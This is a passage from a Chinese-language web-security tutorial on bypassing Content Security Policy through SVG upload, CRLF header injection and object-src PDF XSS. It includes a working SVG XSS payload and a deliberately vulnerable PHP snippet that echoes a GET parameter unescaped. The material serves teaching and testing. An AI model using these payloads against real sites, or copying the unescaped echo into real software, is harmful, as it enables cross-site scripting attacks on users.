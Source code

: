 ### 0x10 SVG绕过

**条件**

1.可以上传svg图片

**利用方法**

```xml-dtd
<?xml version="1.0" encoding="UTF-8" standalone="no"?><!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd"><svg version="1.1" id="Layer_1" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" x="0px" y="0px" width="100px" height="100px" viewBox="0 0 751 751" enable-background="new 0 0 751 751" xml:space="preserve">  <image id="image0" width="751" height="751" x="0" y="0"    href="data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAu8AAALvCAIAAABa4bwGAAAAIGNIUk0AAHomAACAhAAA+gAAAIDo" />
<script>alert(1)</script></svg>
```

### 0x11 CRLF绕过

当页面存在CRLF漏洞时，且返回的CSP头在我们可控点的下方，则可通过回车换行注入CSP返回头绕过。该绕过方法较简单，这里就举例了

### 0x12 object-src绕过（PDFXSS）

在CSP标准里面，有一个属性是`object-src`，它限制的是`<embed>` `<object>` `<applet>`标签的src，也就是插件的src
于是我们可以通过插件来执行Javascript代码，插件的js代码并不受`script-src`的约束

**利用条件**

1. 没有设置`object-src`，或者`object-src`没有设置为`'none'`
2. pdf用的是chrome的默认解析器

**demo**

```php+HTML
<meta http-equiv="Content-Security-Policy" content="script-src 'self'"><?php echo $_GET['xss']?>
```

**绕过方法**

构造pdf的XSS放在vps上

![image-20210614162329478](CSP策略及绕过方法/image-20210614162329478.png)
